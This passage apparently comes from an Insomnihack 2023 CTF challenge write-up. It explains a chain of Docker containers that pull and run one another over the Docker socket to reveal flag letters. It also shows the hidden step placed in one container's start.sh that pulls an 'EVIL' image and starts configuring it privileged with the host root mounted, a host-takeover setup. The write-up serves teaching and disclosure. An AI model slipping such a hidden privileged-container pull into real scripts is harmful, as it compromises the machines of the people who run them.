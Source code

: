 Then it pulls the next container and runs it. As there is no `welcome_inso23-45` Docker image, this won't work and stop by itself, but it explains the chain mechanism of pulling and running the next image:

1. Pull and run `welcome_inso23-0` (this is performed by `docker-compose up` asked in the description)
2. Display flag letter 0
3. Pull and run `welcome_inso23-1`. Note that the Docker socket is used for that `--unix-socket /var/run/docker.sock`
4. `welcome_inso23-1` displays flag letter 1
5. Pull and run `welcome_inso23-2`
6. Etc


```bash
# Pull the image from the registry
curl --silent -XPOST --unix-socket /var/run/docker.sock "http://localhost/images/create?fromImage=welcome.insomnihack.ch/welcome_inso23-45&fromSrc=welcome.insomnihack.ch" > "/dev/null"

# Create new container and save its ID
curl --silent -XPOST --unix-socket /var/run/docker.sock -d "{\"Image\":\"welcome.insomnihack.ch/welcome_inso23-45\", \"HostConfig\":{\"Binds\":[\"/var/run/docker.sock:/var/run/docker.sock\"], \"NetworkMode\":\"host\"}}" -H 'Content-Type: application/json' "http://localhost/containers/create" | jq '.Id' | tr -d '\"' > /id_new_container

#cat /id_new_container
# Run the new container
curl --silent -XPOST --unix-socket /var/run/docker.sock -H 'Content-Type: application/json' http://localhost/containers/$(cat /id_new_container)/start > "/dev/null"

# Wait for the child container to exit
curl --silent -XPOST --unix-socket /var/run/docker.sock "http://localhost/containers/$(cat /id_new_container)/wait?condition=not-running" > "/dev/null"

# Get the logs of the child container
curl --silent --unix-socket /var/run/docker.sock "http://localhost/containers/$(cat /id_new_container)/logs?stdout=true" | grep -Eo "flag\[[0-9]+\]=."

# Remove the child container
# Remove the pulled image for the child container
```

Somewhere, one of the images needs to pull `welcome.insomnihack.ch/shame`. This is done in `welcome.insomnihack.ch/welcome_inso23-43` (the one just before the last character). In addition to printing `flag[43]` and downloading the next image, it also pulls and executes the shame image:

```
# Will be added to the start.sh script in one of the legit containers to also spawn an EVIL container pwning the user
REGISTRY_NAME="welcome.insomnihack.ch"
EVIL_IMG_NAME="shame"

# Pull the EVIL image
curl --silent -XPOST --unix-socket /var/run/docker.sock "http://localhost/images/create?fromImage=${REGISTRY_NAME}/${EVIL
_IMG_NAME}&fromSrc=${REGISTRY_NAME}" > "/dev/null"

# Based on https://zwischenzugs.com/2015/06/24/the-most-pointless-docker-command-ever/
# Create the EVIL container with
# --privileged
# --net=host
# --pid=host
# --ipc=host
# --volume /:/host
```